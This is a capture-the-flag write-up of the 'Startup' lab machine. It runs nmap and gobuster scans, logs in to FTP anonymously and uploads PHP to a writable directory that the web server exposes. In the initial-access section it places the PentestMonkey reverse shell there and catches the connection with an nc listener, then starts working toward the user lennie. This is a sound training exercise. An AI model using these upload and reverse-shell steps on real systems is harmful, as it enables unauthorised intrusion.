






# Startup

## Description

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

### Challenges

1. What is the secret spicy soup recipe?
2. What are the contents of user.txt?
3. What are the contents of root.txt?

## Approach

### Port Scans

Starting off I ran a nmap port scan over the target to find the open ports and applications running on them

Command: `nmap -sV -sC -oN nmap.txt -v 10.10.169.66`

```text
# Nmap 7.93 scan initiated Wed Jun 25 12:48:11 2025 as: nmap -sV -sC -oN nmap.txt -v 10.10.169.66
Nmap scan report for 10.10.169.66
Host is up (0.39s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.14.83.34
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 25 12:49:18 2025 -- 1 IP address (1 host up) scanned in 66.87 seconds
```

From this scan we learnt a few things:

- There is a ftp service on port 21 that allows `anonymous login` and has a writeable directory called `ftp`
- SSH is running on port 22
- There is a webserver on port 80

### Port 80 HTTP



When I navigated to the homepage I saw it had a maintanence banner up so I decided to run a directory scan on the site using `gobuster`

#### Directory Scan

Command: `gobuster dir -u $IP -w /usr/share/dirb/wordlists/common.txt -t 200 -o gobuster-root.txt`

```text
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/files                (Status: 301) [Size: 312] [--> http://10.10.169.66/files/]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 277]
```

The main thing that stands out is the `/files/` directory and when we navigate to it we see that it has the same structure as the `FTP` files we saw in the nmap scan.


### Port 21 FTP

We can login into ftp using the credentials `ftp:""` since there is anonymous login allowed. Listing the files shows the same structure and that we can add files to the ftp directory. Knowing this I can upload a test php file to check if the changes are reflected.

#### test.php

To test if the changes in the ftp directory reflect to the website I created `test.php` which has `<?php echo "<h1>Test File</h1>" ?>` inside it. If I upload this and access it we should see `Test File` on the page which means we can upload any php file and run it.



Now we can go back to the `/files/ftp` directory on the webpage and see if the folder has updated.



And when we click the file we see the output we wanted


## Initial Access

Now we the information we gathered we can use a php file to get a reverse shell. In this case I'm going to use the classic [PentestMonkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell).

I renamed it to `shell.php` and updated my local address.

Now we can upload it to the ftp directory

```text
Connected to 10.10.169.66.
220 (vsFTPd 3.0.3)
Name (10.10.169.66:sam): ftp
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||37978|)
150 Ok to send data.
100% |********************************************************************************|  3460       15.49 MiB/s    00:00 ETA
226 Transfer complete.
3460 bytes sent in 00:00 (3.61 KiB/s)
ftp> bye
221 Goodbye.
```

Next I started a listener using `nc -lvnp 1234` and accessed the reverse shell at `/files/ftp/shell.php` which gives us a reverse connection.



## Interlude: Challenge 1

From here when I listed the directory I noticed I was in `/` and there were some unusual files and folders like:

- recipe.txt
- /incidents/
- /vagrant/

Reading `recipe.txt` gives us: `Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.`

So the answer is **love**

## Privilage Escalation: lennie

The `user.txt` file is most likely in a user home directory and looking in `/home` shows there is a user called `lennie` but only they have permission to access their directory.



Inside the `/incidents` directory we can see a packet capture called `suspicious.pcapng`

To get the file to my pc I decided to go simple and use the python http.server module as seen in the image below


